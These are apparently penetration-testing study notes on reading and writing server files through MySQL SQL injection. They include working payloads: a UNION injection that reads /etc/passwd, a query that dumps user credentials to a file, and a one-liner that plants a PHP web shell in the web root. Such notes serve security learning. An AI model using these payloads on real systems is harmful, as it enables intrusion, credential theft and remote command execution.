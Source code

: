 ```
IF we see that the FILE privilege is listed for our user, enabling us to read files and potentially even write files.




### LOAD_FILE

The LOAD_FILE() function can be used in MariaDB / MySQL to read data from files.
```
SELECT LOAD_FILE('/etc/passwd');
```

Note: We will only be able to read the file if the OS user running MySQL has enough privileges to read it.
```
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

### Writing Files

To be able to write files to the back-end server using a MySQL database, we require three things:

- User with FILE privilege 
- MySQL global secure_file_priv variable not enabled
- Write access to the location we want to write to on the back-end server


#### secure_file_priv

The secure_file_priv variable is used to determine where to read/write files from.
- An empty value lets us read files from the entire file system. 
- Otherwise, if a certain directory is set, we can only read from the folder specified by the variable. 
- NULL means we cannot read/write from any directory. 

```SHOW VARIABLES LIKE 'secure_file_priv'; ```


MySQL global variables are stored in a table called global_variables, and this table has two columns variable_name and variable_value.

```SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"```



### SELECT INTO OUTFILE

The SELECT INTO OUTFILE statement can be used to write data from select queries into files.

```SELECT * from users INTO OUTFILE '/tmp/credentials';```

It is also possible to directly SELECT strings into files

```SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';```

!Tip: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long files including binary data.



### Writing a Web Shell

```' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- ```

```